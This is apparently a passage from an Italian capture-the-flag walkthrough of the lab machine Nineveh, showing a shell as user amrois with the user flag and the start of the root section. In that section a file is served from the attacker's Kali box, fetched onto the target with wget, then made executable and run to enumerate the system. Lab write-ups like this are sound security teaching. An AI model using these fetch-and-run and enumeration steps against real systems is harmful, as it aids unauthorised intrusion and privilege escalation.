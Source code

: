 ```bash
288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Fri Jun 23 07:25:14 2023 from 10.10.14.34
amrois@nineveh:~$ id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$ cat user.txt 
b8484d4a5054ee7e11abb5595d404d7a
```


## Root

Ci scarichiamo LinEnum.sh sulla macchina target

Come prima cosa tiriamo su un server nella cartella dove è presente LinEnum.sh

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

e dalla macchina target lo scarichiamo, gli diamo i permessi di esecuzione con chmod.

```bash
www-data@nineveh:/tmp$ wget http://10.10.14.34/LinEnum.sh
--2023-06-23 04:01:00--  http://10.10.14.34/LinEnum.sh
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2023-06-23 04:01:00 (468 KB/s) - 'LinEnum.sh' saved [46631/46631]

www-data@nineveh:/tmp$ ls
LinEnum.sh
f
systemd-private-4bf097846ffd4a6f90e70e21dcd2e6b2-systemd-timesyncd.service-VLza0Q
vmware-root
www-data@nineveh:/tmp$ chmod +x LinEnum.sh 
```

e lo eseguiamo 

```
www-data@nineveh:/tmp$ ./LinEnum.sh 

...<snip>....

[-] Listening TCP:                 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name                                                                 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN       
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      tcp6       0      0 :::22                   :::*                    LISTEN                        
...<snip>...
```
